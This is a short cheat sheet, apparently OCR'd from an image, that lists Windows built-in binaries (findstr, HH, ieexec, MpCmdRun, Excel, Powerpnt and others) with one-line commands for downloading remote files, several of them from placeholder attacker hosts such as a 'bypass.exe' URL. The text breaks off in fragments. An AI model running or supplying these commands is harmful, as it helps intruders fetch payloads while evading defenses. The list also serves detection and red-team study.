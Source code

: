 ```
```
### Findstr
#### Downloading files
```
findstr /V /L W3AllLov3DonaldTrump \\webdavserver\folder\file.exe > c:\ADS\file.exe
```
### GfxDownloadWrapper
#### Downloading files
```
C:\Windows\System32\DriverStore\FileRepository\igdlh64.inf_amd64_[0-9]+\GfxDownloadWrapper.exe "URL" "DESTINATION FILE"
```
### Hh
#### Downloading files
```
HH.exe http://some.url/script.ps1
```
### leexec
#### Downloading files
```
ieexec.exe http://x.x.x.x:8080/bypass.exe
```
### Makecab
#### Downloading files
```
makecab \\webdavserver\webdav\file.exe C:\Folder\file.cab
```
### MpCmdRun
#### Downloading files
```
MpCmdRun.exe -DownloadFile -url <URL> -path <path> //Windows Defender executable
```
### Replace
#### Downloading files
```
replace.exe \\webdav.host.com\foo\bar.exe c:\outdir /A
```
### Excel
#### Downloading files
```
Excel.exe http://192.168.1.10/TeamsAddinLoader.dll
```
### Powerpnt
#### Downloading files
```
Powerpnt.exe "http://192.168.1.10/TeamsAddinLoader.dll"
```
### Squirrel
#### Downloading files
```
squirrel.exe --download [url to package]
```
### Update
#### Downloading files
```
```

[DC01]: PS>
